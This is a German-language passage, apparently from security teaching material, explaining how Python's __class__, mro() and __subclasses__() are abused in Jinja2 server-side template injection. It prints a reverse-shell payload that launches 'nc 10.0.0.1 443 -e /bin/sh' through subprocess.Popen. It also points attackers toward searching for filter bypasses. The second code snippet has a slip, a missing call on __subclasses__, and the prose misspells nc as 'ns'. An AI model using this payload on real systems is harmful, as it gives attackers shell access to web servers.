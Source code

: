 In Python kann über das Attribut \_\_class\_\_ auf die Klasse eines Objekts zugegriffen werden, die Methode mro liefert sowohl die eigene Klasse als auch alle Elternklassen eines Objektes:

\begin{verbatim}
somelist = [1,2,3]
somelist.__class__         # -> <type 'list'>
somelist.__class__.mro()   # -> [<type 'list'>, <type 'object'>]
obj_class = somelist.__class__.mro()[1]
\end{verbatim}

Somit erhaltne wir über ,,somelist.\_\_class\_\_.mro()'' alle Klassen (inklusive vererbter Klassen) des Objekts ,,somelist''. In Python erben alle Klassen von der Elternklasse ,,Object'' welche wir über die Array-Position 1 selektieren und der Variablen ,,obj\_class'' zuweisen. Klassen in Python besitzen die Methode ,,\_\_subclasses\_\_'' welche eine Liste von allen aktuell bekannten Subklassen zurück liefert. Diese Liste ist dynamisch sowohl die Elemente, als auch die Reihung jener, kann zur Laufzeit variieren.

Ein Angreifer kann diese Liste ausgeben und eine potentiell verwundbare Klasse, wie z. B. ,,subprocess.Popen'' suchen und über den Index diese Klasse selektionen. Nehmen wir an, dass diese Klasse in unserem Beispiel auf Array Position 42 vorhandne war. Durch Hinzufügen von ,,()'' wird nun der Konstruktor der Klasse aufgerufen, hierbei können Parameter angegeben werden. Bei ,,Popen'' kann ein Array mit Parametern übergeben werden. Diese werden zusammenkopiert und beim Aufruf des Konstruktors als Systemkommando ausgeführt:

\begin{verbatim}
obj_class = somelist.__class__.mro()[1]
obj_class.__subclasses__()[42]   # -> <class 'subprocess.Popen'>
obj_class.__subclasses__[42](["nc", "10.0.0.1", "443", "-e", "/bin/sh"])
\end{verbatim}

Bei diesem Beispiel wird somit als Kommando ,,ns 10.0.0.1 443 -e /bin/sh'' aufgerufen: dieses Kommando baut eine reverse-shell auf, ein Angreifer erhält auf diese Weise Shell-Zugriff auf den Server mit den Rechten der Web-Applikation.

Webapplikationen versuchen häufig, Benutzereingaben in Templates auf Schadcode hin zu überprüfen. Dies ist problematisch da Templates viele Möglichkeiten bieten, Schadcode zu verschleiern und auf diese Weise Absicherungen zu umgehen\footnote{siehe auch \url{https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/}}. Als Angreifer sucht man in diesem Fall am Besten nach ,,bypass'' und dem Namen der verwendeten Template-Engine.

